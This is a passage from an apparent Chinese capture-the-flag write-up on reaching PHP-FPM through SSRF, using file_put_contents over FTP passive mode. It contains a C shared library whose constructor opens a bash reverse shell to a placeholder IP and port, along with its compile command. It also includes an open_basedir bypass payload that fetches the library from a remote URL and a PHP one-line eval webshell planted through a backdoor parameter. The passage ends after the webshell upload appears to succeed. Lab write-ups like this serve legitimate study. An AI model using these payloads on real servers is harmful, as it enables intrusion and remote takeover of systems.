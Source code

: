 ![image-20241108202544538](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082025579.png)

我们看到FPM运行在9001端口

接下来就是对FPM进行攻击了

## SSRF攻击FPM

我们可以通过ssrf来攻击FPM，但是受限于这道题的disable_functions，我们无法直接SSRF，但是可以利用

`file_put_contents()`的一个特性来实现SSRF：

> `file_put_contents`在使用 ftp 协议时, 会将 data 的内容上传到 ftp 服务器, 由于上面说的`pasv`模式下, 服务器的地址和端口是可控, 我们可以将地址和端口指到`127.0.0.1:9000`.同时由于 ftp 的特性,不会有任何的多余内容, 类似`gopher`协议, 会将`data`原封不动的发给`127.0.0.1:9000`, 完美符合攻击fastcgi(FPM)的要求.

首先编写一个恶意so来执行命令：

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'exec bash -i >&/dev/tcp/IP/PORT <&1'"); //反弹Shell，配置需修改
}


//该文件后缀为c，然后我们需要将其编译为so文件
```

编译文件：

```
gcc 1.c -fPIC -shared -o 1.so
```

然后将so文件上传上去：

```
/add_api.php?backdoor=mkdir('ye'); chdir('ye');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..'); ini_set('open_basedir','/');var_dump(copy('YOUR_URL/1.so','/var/www/html/1.so'));
```

emmmm，这一步不知道咋传的，我们换种方法，我们用file_put_content传一句话木马上去

```
?backdoor=file_put_content("/var/www/html/1.php","<?php eval($_POST[1]);?>");
```

然后我们访问1.php

![image-20241108205812651](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082058716.png)

应该成功上传了
